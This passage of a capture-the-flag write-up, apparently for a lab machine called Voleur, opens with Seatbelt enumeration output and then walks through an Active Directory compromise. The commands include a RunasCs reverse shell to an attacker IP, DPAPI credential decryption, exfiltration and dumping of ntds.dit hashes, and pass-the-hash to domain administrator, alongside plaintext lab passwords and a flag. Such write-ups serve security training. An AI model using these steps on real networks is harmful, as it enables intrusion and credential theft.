  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[LSA_EAS_ENDPOINT]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[lsapolicylookup]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[lsasspirpc]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[protected_storage]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[SidKey Local End Point]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[samss lpc]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[MicrosoftLaps_LRPC_0fb2f016-fe45-4a08-a7f9-a467f5e5fa0b]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncacn_ip_tcp:[49664]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncacn_ip_tcp:[49668]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[OLEBDDE892865850A065D3E460908B5]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[NTDS_LPC]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncacn_http:[49922]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncacn_np:[\\pipe\\1c2fbc43b1220d57]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncacn_np:[\\pipe\\lsass]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[audit]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[securityevent]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[LSARPC_ENDPOINT]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[lsacap]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[LSA_EAS_ENDPOINT]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[lsapolicylookup]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[lsasspirpc]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[protected_storage]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[SidKey Local End Point]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[samss lpc]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[MicrosoftLaps_LRPC_0fb2f016-fe45-4a08-a7f9-a467f5e5fa0b]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncacn_ip_tcp:[49664]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncacn_ip_tcp:[49668]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[OLEBDDE892865850A065D3E460908B5]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncalrpc:[NTDS_LPC]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncacn_http:[49922]
  51a227ae-825b-41f2-b4a9-1ac9557a1018 v1.0 (Ngc Pop Key Service): ncacn_np:[\\pipe\\1c2fbc43b1220d57]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncacn_np:[\\pipe\\lsass]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[audit]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[securityevent]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[LSARPC_ENDPOINT]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[lsacap]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[LSA_EAS_ENDPOINT]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[lsapolicylookup]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[lsasspirpc]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[protected_storage]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[SidKey Local End Point]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[samss lpc]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[MicrosoftLaps_LRPC_0fb2f016-fe45-4a08-a7f9-a467f5e5fa0b]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncacn_ip_tcp:[49664]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncacn_ip_tcp:[49668]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[OLEBDDE892865850A065D3E460908B5]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[NTDS_LPC]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncacn_http:[49922]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncacn_np:[\\pipe\\1c2fbc43b1220d57]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[NETLOGON_LRPC]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncacn_np:[\\pipe\\lsass]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[audit]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[securityevent]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[LSARPC_ENDPOINT]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[lsacap]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[LSA_EAS_ENDPOINT]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[lsapolicylookup]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[lsasspirpc]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[protected_storage]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[SidKey Local End Point]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[samss lpc]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[MicrosoftLaps_LRPC_0fb2f016-fe45-4a08-a7f9-a467f5e5fa0b]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncacn_ip_tcp:[49664]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncacn_ip_tcp:[49668]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[OLEBDDE892865850A065D3E460908B5]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[NTDS_LPC]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncacn_http:[49922]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncacn_np:[\\pipe\\1c2fbc43b1220d57]
  0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 v0.0 (RemoteAccessCheck): ncalrpc:[NETLOGON_LRPC]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncacn_np:[\\pipe\\lsass]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[audit]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[securityevent]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[LSARPC_ENDPOINT]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[lsacap]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[LSA_EAS_ENDPOINT]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[lsapolicylookup]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[lsasspirpc]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[protected_storage]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[SidKey Local End Point]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[samss lpc]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[MicrosoftLaps_LRPC_0fb2f016-fe45-4a08-a7f9-a467f5e5fa0b]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncacn_ip_tcp:[49664]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncacn_ip_tcp:[49668]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[OLEBDDE892865850A065D3E460908B5]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[NTDS_LPC]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncacn_http:[49922]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncacn_np:[\\pipe\\1c2fbc43b1220d57]
  12345678-1234-abcd-ef00-01234567cffb v1.0 (): ncalrpc:[NETLOGON_LRPC]
====== SCCM ======

  Server                         :
  SiteCode                       :
  ProductVersion                 :
  LastSuccessfulInstallParams    :

====== ScheduledTasks ======

Non Microsoft scheduled tasks (via WMI)

ERROR: System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.ScheduledTasksCommand.<Execute>d__10.MoveNext()
====== SearchIndex ======

ERROR: Unable to query the Search Indexer, Search Index is likely not running.
====== SecPackageCreds ======

ERROR:   [!] Terminating exception running command 'SecPackageCreds': System.Exception: Couldn't parse nt_resp. Len: 0 Message bytes: 4e544c4d5353500003000000010001005c000000000000005d000000000000005800000000000000580000000400040058000000000000005d000000058a80a20a007c4f0000000fa5f2f12ab1041dfe960f32a854a7c4a24400430000
   at Seatbelt.Commands.Windows.SecurityPackagesCredentialsCommand.GetNtlmCreds(String challenge, Boolean DisableESS)
   at Seatbelt.Commands.Windows.SecurityPackagesCredentialsCommand.<Execute>d__14.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== SecurityPackages ======

Security Packages


  Name                           : Negotiate
  Comment                        : Microsoft Package Negotiator
  Capabilities                   : INTEGRITY, PRIVACY, CONNECTION, MULTI_REQUIRED, EXTENDED_ERROR, IMPERSONATION, ACCEPT_WIN32_NAME, NEGOTIABLE, GSS_COMPATIBLE, LOGON, RESTRICTED_TOKENS, APPCONTAINER_CHECKS
  MaxToken                       : 48256
  RPCID                          : 9
  Version                        : 1

  Name                           : NegoExtender
  Comment                        : NegoExtender Security Package
  Capabilities                   : INTEGRITY, PRIVACY, CONNECTION, IMPERSONATION, NEGOTIABLE, GSS_COMPATIBLE, LOGON, MUTUAL_AUTH, NEGO_EXTENDER, APPCONTAINER_CHECKS
  MaxToken                       : 12000
  RPCID                          : 30
  Version                        : 1

  Name                           : Kerberos
  Comment                        : Microsoft Kerberos V1.0
  Capabilities                   : 42941375
  MaxToken                       : 48000
  RPCID                          : 16
  Version                        : 1

  Name                           : NTLM
  Comment                        : NTLM Security Package
  Capabilities                   : 42478391
  MaxToken                       : 2888
  RPCID                          : 10
  Version                        : 1

  Name                           : TSSSP
  Comment                        : TS Service Security Package
  Capabilities                   : CONNECTION, MULTI_REQUIRED, ACCEPT_WIN32_NAME, MUTUAL_AUTH, APPCONTAINER_CHECKS
  MaxToken                       : 13000
  RPCID                          : 22
  Version                        : 1

  Name                           : pku2u
  Comment                        : PKU2U Security Package
  Capabilities                   : INTEGRITY, PRIVACY, CONNECTION, IMPERSONATION, GSS_COMPATIBLE, MUTUAL_AUTH, NEGOTIABLE2, APPCONTAINER_CHECKS
  MaxToken                       : 12000
  RPCID                          : 31
  Version                        : 1

  Name                           : CloudAP
  Comment                        : Cloud AP Security Package
  Capabilities                   : LOGON, NEGOTIABLE2, APPCONTAINER_PASSTHROUGH
  MaxToken                       : 0
  RPCID                          : 36
  Version                        : 1

  Name                           : WDigest
  Comment                        : Digest Authentication for Windows
  Capabilities                   : TOKEN_ONLY, IMPERSONATION, ACCEPT_WIN32_NAME, APPCONTAINER_CHECKS
  MaxToken                       : 4096
  RPCID                          : 21
  Version                        : 1

  Name                           : Schannel
  Comment                        : Schannel Security Package
  Capabilities                   : INTEGRITY, PRIVACY, CONNECTION, MULTI_REQUIRED, EXTENDED_ERROR, IMPERSONATION, ACCEPT_WIN32_NAME, STREAM, MUTUAL_AUTH, APPCONTAINER_PASSTHROUGH
  MaxToken                       : 24576
  RPCID                          : 14
  Version                        : 1

  Name                           : Microsoft Unified Security Protocol Provider
  Comment                        : Schannel Security Package
  Capabilities                   : INTEGRITY, PRIVACY, CONNECTION, MULTI_REQUIRED, EXTENDED_ERROR, IMPERSONATION, ACCEPT_WIN32_NAME, STREAM, MUTUAL_AUTH, APPCONTAINER_PASSTHROUGH
  MaxToken                       : 24576
  RPCID                          : 14
  Version                        : 1

  Name                           : Default TLS SSP
  Comment                        : Schannel Security Package
  Capabilities                   : INTEGRITY, PRIVACY, CONNECTION, MULTI_REQUIRED, EXTENDED_ERROR, IMPERSONATION, ACCEPT_WIN32_NAME, STREAM, MUTUAL_AUTH, APPCONTAINER_PASSTHROUGH
  MaxToken                       : 24576
  RPCID                          : 14
  Version                        : 1

  Name                           : PWDSSP
  Comment                        : Microsoft Clear Text Password Security Provider
  Capabilities                   : CONNECTION, ACCEPT_WIN32_NAME
  MaxToken                       : 768
  RPCID                          : -1
  Version                        : 1

====== Services ======

Non Microsoft Services (via WMI)

ERROR:   [!] Terminating exception running command 'Services': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.ServicesCommand.<Execute>d__9.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== SlackDownloads ======

====== SlackPresence ======

====== SlackWorkspaces ======

====== SuperPutty ======

====== Sysmon ======

ERROR: Unable to collect. Must be an administrator.
====== SysmonEvents ======

ERROR: Unable to collect. Must be an administrator.
====== TcpConnections ======

  Local Address          Foreign Address        State      PID   Service         ProcessName
ERROR:   [!] Terminating exception running command 'TcpConnections': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.TcpConnectionsCommand.<Execute>d__9.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== TokenGroups ======

Current Token's Groups

  VOLEUR\Domain Users                      S-1-5-21-3927696377-1337352550-2781715495-513
  Everyone                                 S-1-1-0
  BUILTIN\Remote Management Users          S-1-5-32-580
  BUILTIN\Users                            S-1-5-32-545
  BUILTIN\Pre-Windows 2000 Compatible Access S-1-5-32-554
  NT AUTHORITY\NETWORK                     S-1-5-2
  NT AUTHORITY\Authenticated Users         S-1-5-11
  NT AUTHORITY\This Organization           S-1-5-15
  Authentication authority asserted identity S-1-18-1
====== TokenPrivileges ======

Current Token's Privileges

                    SeMachineAccountPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
====== UAC ======

  ConsentPromptBehaviorAdmin     : 5 - PromptForNonWindowsBinaries
  EnableLUA (Is UAC enabled?)    : 1
  LocalAccountTokenFilterPolicy  :
  FilterAdministratorToken       :
    [*] Default Windows settings - Only the RID-500 local admin account can be used for lateral movement.
====== UdpConnections ======

  Local Address          PID    Service                 ProcessName
ERROR:   [!] Terminating exception running command 'UdpConnections': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.UdpConnectionsCommand.<Execute>d__9.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== UserRightAssignments ======

Must be an administrator to enumerate User Right Assignments
====== WifiProfile ======

ERROR:   [!] Terminating exception running command 'WifiProfile': System.DllNotFoundException: Unable to load DLL 'Wlanapi.dll': The specified module could not be found. (Exception from HRESULT: 0x8007007E)
   at Seatbelt.Interop.Wlanapi.WlanOpenHandle(UInt32 dwClientVersion, IntPtr pReserved, UInt32& pdwNegotiatedVersion, IntPtr& ClientHandle)
   at Seatbelt.Commands.Windows.WifiProfileCommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== WindowsAutoLogon ======

  DefaultDomainName              : VOLEUR
  DefaultUserName                : svc_backup
  DefaultPassword                :
  AltDefaultDomainName           :
  AltDefaultUserName             :
  AltDefaultPassword             :

====== WindowsCredentialFiles ======

  Folder : C:\Users\svc_winrm\AppData\Local\Microsoft\Credentials\

    FileName     : DFBE70A7E5CC19A398EBF1B96859CE5D
    Description  : Local Credential Data

    MasterKey    : 2df1d8a3-cb47-4723-9d2e-b826b57a3952
    Accessed     : 1/29/2025 7:07:35 AM
    Modified     : 1/29/2025 7:07:35 AM
    Size         : 11068


====== WindowsDefender ======

Locally-defined Settings:


GPO-defined Settings:
====== WindowsEventForwarding ======

====== WindowsFirewall ======

Collecting Windows Firewall Non-standard Rules


Location                     : SOFTWARE\Policies\Microsoft\WindowsFirewall

Location                     : SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy

Domain Profile
    Enabled                  : True
    DisableNotifications     : True
    DefaultInboundAction     : ALLOW
    DefaultOutboundAction    : ALLOW

Public Profile
    Enabled                  : True
    DisableNotifications     : True
    DefaultInboundAction     : ALLOW
    DefaultOutboundAction    : ALLOW

Standard Profile
    Enabled                  : True
    DisableNotifications     : True
    DefaultInboundAction     : ALLOW
    DefaultOutboundAction    : ALLOW

====== WindowsVault ======

ERROR: Unable to enumerate vaults. Error code: 1061
====== WMI ======

ERROR:   [!] Terminating exception running command 'WMI': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at Seatbelt.Commands.Windows.WMICommand.<Execute>d__10.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== WMIEventConsumer ======

ERROR:   [!] Terminating exception running command 'WMIEventConsumer': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObject.Initialize(Boolean getObject)
   at System.Management.ManagementClass.GetInstances(EnumerationOptions options)
   at Seatbelt.Commands.Windows.WMIEventConsumerCommand.<Execute>d__9.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== WMIEventFilter ======

ERROR:   [!] Terminating exception running command 'WMIEventFilter': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObject.Initialize(Boolean getObject)
   at System.Management.ManagementClass.GetInstances(EnumerationOptions options)
   at Seatbelt.Commands.Windows.WmiEventFilterCommand.<Execute>d__9.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== WMIFilterBinding ======

ERROR:   [!] Terminating exception running command 'WMIFilterBinding': System.Management.ManagementException: Access denied
   at System.Management.ManagementException.ThrowWithExtendedInfo(ManagementStatus errorCode)
   at System.Management.ManagementScope.InitializeGuts(Object o)
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObject.Initialize(Boolean getObject)
   at System.Management.ManagementClass.GetInstances(EnumerationOptions options)
   at Seatbelt.Commands.Windows.WMIFilterToConsumerBindingCommand.<Execute>d__9.MoveNext()
   at Seatbelt.Runtime.ExecuteCommand(CommandBase command, String[] commandArgs)
====== WSUS ======

  UseWUServer                    : False
  Server                         :
  AlternateServer                :
  StatisticsServer               :


[*] Completed collection in 134.83 seconds
```

Seatbelt helps us reveal that the svc_ldap user had SeRestorePrivilege. Let's go so my hunch is correct we can restore the deleted account `todd.wolfe`.

### Obtaining a Privileged Shell to the svc_ldap

Using RunasCs.exe, a tool that allows executing commands as other users, we test the tool to execute the `whoami/all` command as `svc_ldap`. It works!!!


Now, we can launch a PowerShell reverse shell that would connect back to our machine.

```bash
./RunasCs.exe svc_ldap M1XyC9pW7qT5Vn "powershell.exe" -r 10.10.14.26:4444
```


We're in! 😈 


---

## Restoring Deleted User Account

We first loaded the Active Directory PowerShell module and then searched for the deleted account.

```bash
Import-Module ActiveDirectory
Get-ADObject -filter 'samaccountname -eq "Todd.Wolfe"' -IncludeDeletedObjects
```

We then restored it.

```bash
Get-ADObject -filter 'samaccountname -eq "Todd.Wolfe"' -IncludeDeletedObjects | Restore-ADObject
```


### Bloodhound enumeration on the user todd.wolfe

After successfully restoring the account, we used the credentials to run a new BloodHound scan to enumerate the permissions of this newly restored user. We gain new insight:


Todd.Wolfe was a member of the Second-Line Technicians and Remote Management Users groups.


Now we know that `todd.wolfe` is a member of the `remote management users`, let's request for his tgt and create a remote connect through `evil-winrm`. 

Unfortuantely, we failed to attempt the connection 😿.


Not to worry, we still can use `todd.wolfe` credentials to access the smb services. 



### Pivoting Through Archived Profiles (DPAPI Attack)

We tried to find anything interesting in the smb to gain access to the administration, but nothing seems interesting. Then, i read an article in medium https://medium.com/@toneillcodes/extracting-dpapi-masterkey-data-1381168ad5b8 about extracting DPAPI MasterKey Data.

From that we found a backup of Todd Wolfe's user profile. By exploring this profile, we located the directories where Windows stores DPAPI-protected data:

```bash
AppData/Roaming/Microsoft/Protect: Contains the user's DPAPI master key.
```

```bash
AppData/Local/Microsoft/Credentials: Contains saved credential files.
```

We downloaded the master key and the credential files from these directories for offline analysis.


### Decrypting DPAPI Blobs

The Windows Data Protection API (DPAPI) encrypts these files using a key derived from the user's password. Since we knew Todd Wolfe's password, we could decrypt them.

1) **Decrypt the Master Key:** We used Impacket's dpapi.py with the user's password and SID to decrypt the downloaded master key file.

```bash
dpapi.py masterkey -file <masterkey-file> -sid <Todd.Wolfe-SID> -password 'NightT1meP1dg3on14'
```


This command returned the decrypted master key in hex format.

2) **Decrypt the Credential File:** With the decrypted master key, we used dpapi.py again to decrypt the credential files we had downloaded.

```bash
dpapi.py credential -file <credential-file> -key <decrypted-master-key>
```

This process successfully decrypted the credential blob, revealing the credentials for another user: `jeremy.combs` with the password `qT3V9pLjYN7W4n`. 


A quick check in BloodHound showed that Jeremy Combs was a member of the `Third-Line Technicians` and, the `Remote Management Users` group.


---

## Final Compromise via WSL

With the credentials for jeremy.combs, we finally had a user with the correct permissions to log in via Evil-WinRM. 

```bash
getTGT.py voleur.htb/jeremy.combs:qT3V9pLjYN7W4n
export KRB5CCNAME=jeremy.combs.ccache
evil-winrm -i dc.voleur.htb -u 'Jeremy.Combs' -r voleur.htb
```


Lazy to search from the winrm, we started to explore the SMB shares again and found a Note.txt file and an id_rsa SSH private key in the Third-Line Support directory. The note mentioned configuring Windows Subsystem for Linux (WSL) for backups.

*Interesting.....*


The given id_rsa key suggested we could SSH into the machine. We analyzed the key and found that it is the ssh key for a service account called `svc_backup user`.


We download the key and give it permission before using it to connect to the server.


Okay! Now i'm inside my first instict is to run linpeas.sh on the server to find any priviledge escalation possibility.


From that, we found that `svc_backup user` can run sudo su, we gained root access without any required password.


Exploring the `mnt/c/IT/Third-Line Support` directory, we found backups of the `Active Directory database (ntds.dit and ntds.jfm)` and the `Registry hives (SYSTEM and SECURITY)`. We exfiltrated these critical files back to our attacker machine using scp.

Having a local copy of the ntds.dit file and the SYSTEM hive allows for an offline extraction of all domain user password hashes. We used Impacket's secretsdump.py for this.


Having a local copy of the ntds.dit file and the SYSTEM hive allows for an offline extraction of all domain user password hashes. We used Impacket's secretsdump.py for this.

```bash
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

This command dumped the NTLM hashes for every user in the domain, including the built-in Administrator account.


---

## Pass-the-Hash to Victory

With the Administrator's NTLM hash, we performed a Pass-the-Hash attack using getTGT.py and evil-winrm to gain an administrative shell.

```bash
getTGT.py -hashes :<admin_hash> voleur.htb/Administrator
export KRB5CCNAME=Administrator.ccache
evil-winrm -i dc.voleur.htb -u Administrator -r voleur.htb
```


This gave us a shell as the domain administrator, from which we could read the root flag.


**Root Flag:** `1ce13b9ac9c1b3a37e51b7045fb08031`

## PWNED


## Conclusion
The machine has been successfully compromised, and both flags have been captured.

---
*This writeup is for educational purposes only. Always ensure you have proper authorization before testing security vulnerabilities.*